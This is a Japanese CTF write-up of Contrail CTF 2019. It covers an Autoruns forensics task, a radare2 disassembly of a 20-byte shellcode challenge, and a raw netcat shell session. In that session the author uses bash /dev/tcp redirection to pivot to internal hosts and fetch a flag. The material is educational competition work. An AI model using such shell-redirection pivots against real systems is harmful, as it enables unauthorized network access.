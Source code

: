 ```yaml
---
date: 2020-01-04
description: 'Contrail CTF 参加記録'
category:
 - 雑記
---
```


# Contrail CTF 参加記録と解き直し

SCBで出て, Score302, 25位でした。
そのうち, 私は以下の問題を解きました。

 - debug_port: network
 - Persistence: forensics
 
では, 解き直しをやっていき

## forensics
### Persistence
`.arn`ファイルが与えられます。  
これはAutorunsの拡張子なので, 開いて中身を確認します。

Task Schedulerに`\Evil`というプロセスが残っているので中身を確認するとflagがあります。

### alice's password
正しくunzipできないzipファイルとdataが与えられます。

## Pwn
### EasyShellCode
20Byte(0x14)までしかread()してくれない。
そのあとはシェルコードを実行してくれる。

radare2で逆アセンブルする。

```
# r2 problem 
[0x00000710]> aaaa
[Cannot analyze at 0x00000700g with sym. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[Cannot analyze at 0x00000700ac)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00000710]> s main
[0x0000081a]> pdd
/* r2dec pseudo code output */
/* problem @ 0x81a */
#include <stdint.h>
 
int32_t main (void) {
    rax = *(fs:0x28);
    *((rbp - 8)) = rax;
    eax = 0;
    r9d = 0;
    r8d = 0;
    rax = mmap (0, 0x64, 7, 0x22, r8d, r9d);
    *((rbp - 0x10)) = rax;
    eax = 0;
    printf ("Input your shellcode: ");
    rax = stdout;
    fflush (*(obj.stdout));
    rax = *((rbp - 0x10));
    read (0, rax, 0x14);
    rax = *((rbp - 0x10));
    edx = 7;
    esi = 0x64;
    rdi = rax;
    mprotect ();
    rax = rbp - 0x10;
    rdx = 0;
    rdi = 0;
    rsi = 0;
    rbx = 0;
    rcx = 0;
    r8 = 0;
    r9 = 0;
    r10 = 0;
    r11 = 0;
    r12 = 0;
    r13 = 0;
    r14 = 0;
    r15 = 0;
    rbp = 0;
    return uint64_t (*rax)() ();
}
```

最後の行で`uint64_t (*rax)() ();`を実行しているので, `read (0, rax, 0x14);`でシェルコードを読み込めれば問題なく実行できそう。  


これは, 引数が空で返り値がuint64_tな関数へのポインタであり, raxから始まるアドレスに格納されているアドレスを間接参照で読み出します。

 - [詳しくはこちらを見ると良い](https://www.sigbus.info/compilerbook#type)


## Misc
### Let's connct
```
$ nc 114.177.250.4 2999
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ help
help
GNU bash, version 4.4.20(1)-release (x86_64-pc-linux-gnu)
These shell commands are defined internally.  Type `help' to see this list.
Type `help name' to find out more about the function `name'.
Use `info bash' to find out more about the shell in general.
Use `man -k' or `info' to find out more about commands not in this list.

A star (*) next to a name means that the command is disabled.

 job_spec [&]                            history [-c] [-d offset] [n] or hist>
 (( expression ))                        if COMMANDS; then COMMANDS; [ elif C>
 . filename [arguments]                  jobs [-lnprs] [jobspec ...] or jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] name[=value] ...
 alias [-p] [name[=value] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d delim] [-n count] [-O or>
 bind [-lpsvPSVX] [-m keymap] [-f file>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | dir]
 caller [expr]                           pwd [-LP]
 case WORD in [PATTERN [| PATTERN]...)>  read [-ers] [-a array] [-d delim] [->
 cd [-L|[-P [-e]] [-@]] [dir]            readarray [-n count] [-O origin] [-s>
 command [-pVv] command [arg ...]        readonly [-aAf] [name[=value] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NAME [in WORDS ... ;] do COMM>
 compopt [-o|+o option] [-DE] [name ..>  set [-abefhkmnptuvxBCHP] [-o option->
 continue [n]                            shift [n]
 coproc [NAME] command [redirections]    shopt [-pqsu] [-o] [optname ...]
 declare [-aAfFgilnrtux] [-p] [name[=v>  source filename [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f filename] [na>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a name] [command [argume>  true
 exit [n]                                type [-afptP] name [name ...]
 export [-fn] [name[=value] ...] or ex>  typeset [-aAfFgilnrtux] [-p] name[=v>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [first] [last] o>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] name [name ...]
 for NAME [in WORDS ... ] ; do COMMAND>  unset [-f] [-v] [-n] [name ...]
 for (( exp1; exp2; exp3 )); do COMMAN>  until COMMANDS; do COMMANDS; done
 function name { COMMANDS ; } or name >  variables - Names and meanings of so>
 getopts optstring name [arg]            wait [-n] [id ...]
 hash [-lr] [-p pathname] [-dt] [name >  while COMMANDS; do COMMANDS; done
 help [-dms] [pattern ...]               { COMMANDS ; }
bash-4.4history
history
    1  help
    2  history
bash-4.4$ history
history
    1  help
    2  history
    3  history
bash-4.4$ exec <> /dev/tcp/172.17.0.10/3000
exec <> /dev/tcp/172.17.0.10/3000
bash: connect: Connection refused
bash: /dev/tcp/172.17.0.10/3000: Connection refused
bash-4.4$ ls
ls
bash
bin
dev
flag
lib
lib32
lib64
bash-4.4$ echo "$(<flag)"
 echo "$(<flag)"
Flag has moved to 3000 port on 172.17.0.5 .
bash-4.4$ exec 3<> /dev/tcp/172.17.0.5/3000; ./bash <&3
```

## ref
 - [Contrail CTF writeup by aqua](https://www.aquablog.site/entry/2020/01/04/000000)
 - [ContrailCTF\_2019のwriteup by Tsubasa](http://szarny.hatenablog.com/entry/2020/01/04/ContrailCTF_2019%E3%81%AEwriteup)
 - [Contrail CTF WriteUp by ryoto](https://www.ryotosaito.com/blog/?p=400)
 - [Contrail CTF 2019のWriteup by ptr-yudai](https://ptr-yudai.hatenablog.com/entry/2020/01/04/000225)
